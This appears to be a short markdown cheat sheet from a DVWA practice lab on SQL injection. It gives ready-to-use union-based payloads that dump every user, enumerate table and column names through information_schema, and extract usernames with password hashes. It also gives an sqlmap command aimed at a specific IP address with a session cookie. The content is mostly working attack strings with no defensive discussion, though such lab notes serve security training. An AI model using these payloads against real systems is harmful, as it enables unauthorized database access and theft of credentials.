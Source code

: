 # SQL Injection 

##### Dump all users 
```sql
%' or '0'='0
```

##### Manual enumeration 

###### Trying to guess column names 
```sql
%' or '0'='0' union select COLUMN_NAME from information_schema.COLUMNS #
```

###### Find the table and column names 
```sql
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
```

##### Dumping password hashes 
```sql
%' or '0'='0' union select user, password from dvwa.users #
```

### Automated 
---

### Using sqlmap 
```sh
# Find backend DB
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low" --dbs

```
